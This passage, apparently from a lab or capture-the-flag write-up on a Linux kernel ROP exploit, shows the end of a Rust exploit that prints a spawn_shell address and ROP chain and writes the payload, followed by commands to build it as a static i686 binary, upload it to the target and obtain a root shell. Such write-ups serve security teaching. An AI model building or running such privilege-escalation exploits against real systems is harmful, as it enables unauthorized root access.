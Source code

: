 ```Rust

    println!("@spawn_shell = {:p}", spawn_shell as *const ());

    println!("ROP chain:");
    for chunk in payload.chunks(4) {
        println!("\t{:04x}", u32::from_le_bytes(chunk.try_into().unwrap())); 
    }

    f.write_all(&payload).unwrap();
}
```

Thanks to Rust building system, we can easely compile the exploit as a static binary for the target system:

```shell
mkdir exploit && cd exploit
cargo init .
cargo add libc
# copy code to src/main.rs
# ...

# make sure target is available
rustup target add i686-unknown-linux-musl

# build
cargo build --target i686-unknown-linux-musl --release

# then upload the binary to the target system
# binary is found at ./target/i686-unknown-linux-musl/release/exploit
```

Then we run the binary and get a root shell !

![Got root](/img/pwn-linkern-rop/got-root.png)








